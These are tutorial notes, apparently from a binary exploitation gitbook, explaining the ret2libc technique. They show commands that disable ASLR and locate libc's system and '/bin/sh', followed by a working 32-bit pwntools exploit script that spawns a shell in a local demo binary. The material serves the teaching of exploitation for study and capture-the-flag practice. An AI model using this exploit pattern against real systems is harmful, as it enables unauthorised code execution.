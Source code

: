 From [IronStone Gitbook](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc)

# `ret2libc`
The standard ROP exploit

The `ret2libc` technique is used to exploit buffer overflow vulnerabilities on systems that use the `NX` bit to protect stack memory. It's based off of the `system` function.
	The string `"/bin/sh"` string is in there too
The big goal is passing `"/bin/sh"` as a parameter to `system`

## Disabling ASLR
This demo has ASLR disabled for ease, but the [[Ret2Plt]] technique can be used to leak the base address of the library.
To disable:
```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
## Manual Exploitation
### Getting Libc and its base
Linux has a command called `ldd` to tell use the base addresses of linked libraries:
```
$ ldd vuln-32 
	linux-gate.so.1 (0xf7fd2000)
	libc.so.6 => /lib32/libc.so.6 (0xf7dc2000)
	/lib/ld-linux.so.2 (0xf7fd3000)
```
### Locating `system()`
To call `system` we need its location in memory.
Can use `readelf` for this:
```
$ readelf -s /lib32/libc.so.6 | grep system
1534: 00044f00    55 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.0
```
### Locating `"/bin/sh"`
Use strings:
```
$ strings -a -t x /lib32/libc.so.6 | grep /bin/sh
18c32b /bin/sh
```
Note, when passing strings as parameters, you MUST past the pointer to the string

## 32-bit Exploit
```
from pwn import *

p = process('./vuln-32')

libc_base = 0xf7dc2000
system = libc_base + 0x44f00
binsh = libc_base + 0x18c32b

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system
payload += p32(0x0)         # return pointer - not important once we get the shell
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```